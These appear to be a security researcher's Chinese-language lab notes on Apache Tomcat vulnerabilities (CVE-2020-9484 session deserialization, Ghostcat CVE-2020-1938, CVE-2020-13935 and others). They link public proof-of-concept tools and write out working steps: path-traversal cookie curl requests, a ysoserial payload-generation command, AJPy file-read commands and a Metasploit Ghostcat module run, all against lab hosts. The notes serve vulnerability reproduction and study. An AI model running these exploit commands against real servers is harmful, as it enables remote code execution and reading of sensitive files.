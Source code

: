 ## Tomcat

公告：http://tomcat.apache.org/security.html

http://tomcat.apache.org/security-7.html
http://tomcat.apache.org/security-8.html
http://tomcat.apache.org/security-9.html
http://tomcat.apache.org/security-10.html

### Apache Tomcat 信息泄露漏洞 CVE-2021-24122

https://fengchenzxc.github.io/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Web%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%BC%8F%E6%B4%9E/Apache/Apache%20Tomcat/Apache%20Tomcat%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E%20CVE-2021-24122/

### Tomcat websocket 拒绝服务漏洞利用代码披露（CVE-2020-13935）

条件：

1. 有ws功能，默认examples下面有
2. 版本小于 8.5.57 9.0.37 10.0.0-M7

危害： 服务器CPU百分百

https://github.com/RedTeamPentesting/CVE-2020-13935

### [APACHE TOMCAT SESSION 反序列化代码执行漏洞（CVE-2021-25329）通告](http://blog.nsfocus.net/cve-2021-25329/)

CVE-2020-9484 没有处理完

### Apache Tomcat Session 反序列化代码执行漏洞（CVE-2020-9484） (SCA:CVE-2020-9484)

1. 版本小于： 8.5.55/8.5.63 9.0.35/9.0.43 10.0.2

https://github.com/masahiro331/CVE-2020-9484
git clone https://github.com/masahiro331/CVE-2020-9484.git
docker build -t tomcat:CVE-2020-9484 .
docker run -d -p 8080:8080 tomcat:CVE-2020-9484

$ curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy'

确认，在下面生成了 rce 文件
$ docker exec -it $CONTAINER /bin/sh
$ ls /tmp/rce

```bash
curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy'
curl 'http://192.168.56.130:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/123.txt'
```

https://github.com/masahiro331/CVE-2020-9484
https://github.com/IdealDreamLast/CVE-2020-9484

https://y4er.com/post/cve-2020-9484-tomcat-session-rce/

条件：
1. 不是默认配置，需要手动增加Context.xml
2. 文件上传 文件后缀需要是.session
3. 需要知道绝对路径来跨目录

扩展攻击 ，如果用redisSession进行持久化也是可以的

TODO：由于官方不认这个漏洞，看看是不是现在版本还可以攻击？

Tomcat Remote Code Execution via session persistence 分析【CVE-2020-9484】
http://www.lmxspace.com/2020/05/21/Tomcat-Remote-Code-Execution-via-session-persistence-%E5%88%86%E6%9E%90%E3%80%90CVE-2020-9484%E3%80%91/#0x05%E5%90%8E%E8%AF%9D

是用来生成 .session shell payload的

https://github.com/frohoff/ysoserial

```bash
mvn clean package -DskipTests
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "touch /tmp/9484" > /tmp/22222.session
```

扩展：

[Java Deserialization Exploitation With Customized Ysoserial Payloads](https://rhinosecuritylabs.com/research/java-deserializationusing-ysoserial)

[Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

https://y4er.com/post/cve-2020-9484-tomcat-session-rce/

生成payload的原理：

[Java 反序列化： 基于 CommonsCollections4 的 Gadget 分析](https://paper.seebug.org/786/)

[Java反序列化漏洞的一些gadget](https://milkfr.github.io/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/2019/08/22/analysis-java-deserialize-gadget-chain/)

这里是关于Tomcat默认不安全配置的session的另一个漏洞

tomcat使用了自带session同步功能时，不安全的配置（没有使用EncryptInterceptor）导致存在的反序列化漏洞，
通过精心构造的数据包， 可以对使用了tomcat自带session同步功能的服务器进行攻击。PS:这个不是CVE-2020-9484，9484是session持久化的洞，
这个是session集群同步的洞！

https://github.com/threedr3am/tomcat-cluster-session-sync-exp

[CVE-2020-9484 Tomcat-RCE漏洞分析报告](https://threedr3am.github.io/2020/06/12/CVE-2020-9484%20Tomcat-RCE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E6%8A%A5%E5%91%8A/)

[Tomcat Session(CVE-2020-9484)反序列化漏洞复现](https://www.freebuf.com/vuls/245232.html)

攻击者可以控制服务器上的文件名/文件内容；
服务器上配置使用了PersistenceManager的FileStore；
PersistenceManager配置了sessionAttributeValueClassNameFilter值为“NULL”或者其他宽松的过滤器，使得攻击者可以提供反序列化对象；
攻击者知道FileStore使用的存储位置到可控文件的相对路径。

### ghostcat Tomcat-AJP 文件读取与包含漏洞（CVE-2020-1938） (SCA:ACSV-2020-022001)

AJP Connector，它使用的是 AJP 协议（Apache Jserv Protocol）是定向包协议。
因为性能原因，使用二进制格式来传输可读性文本，它能降低 HTTP 请求的处理成本，因此主要在需要集群、反向代理的场景被使用。

条件：

1. 打开8009，8.5.50前默认是打开8009的
2. 版本小于 8.5.51 9.0.31

[POC1](https://github.com/hypn0s/AJPy) 这个工具只针对这个CVE

```bash
wget https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.50/bin/apache-tomcat-8.5.50.tar.gz
tar xzf *.gz
python tomcat.py version 192.168.56.130
```

必须打开 8009才能直接使用，这个是直接获取的请求
python tomcat.py read_file --webapp=examples /WEB-INF/web.xml 192.168.56.130

不能获得
python tomcat.py read_file --webapp=examples /tmp/123.txt 192.168.56.130

这个好像拿到的和原文件不同
python tomcat.py read_file --webapp=examples /jsp/sessions/carts.jsp 192.168.56.130
cat ~/tomcat/apache-tomcat-8.5.50/webapps/examples/jsp/sessions/carts.jsp  

如果没有账号和密码，这个也取不到
python tomcat.py read_file --webapp=manager /WEB-INF/jsp/connectorTrustedCerts.jsp 192.168.56.130

下面这个应该是拿不到的
conf/tomcat-users.xml

[一文详解Tomcat Ghostcat-AJP协议文件读取/文件包含漏洞CVE-2020-1938](https://zhuanlan.zhihu.com/p/137527937)

成功
```bash
sudo msfconsole
search tomcat
use auxiliary/admin/http/tomcat_ghostcat
SET RHOSTS 192.168.56.130
SET RPORT 8009
run
```

[Apache Tomcat - AJP 'Ghostcat File Read/Inclusion](https://www.exploit-db.com/exploits/48143)

[xray 长亭科技 tomcat ghostcat 扫描](https://www.chaitin.cn/zh/ghostcat)

[CVE-2020-1938：Apache Tomcat服务器任意文件读取/包含漏洞通告](https://www.anquanke.com/post/id/199351)

[CVE-2020-1938 : Tomcat-Ajp 协议漏洞分析](https://www.anquanke.com/post/id/199448)

```xml
<Connector port="8080" protocol="HTTP/1.1"
             connectionTimeout="20000"
             redirectPort="8443" />
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
```
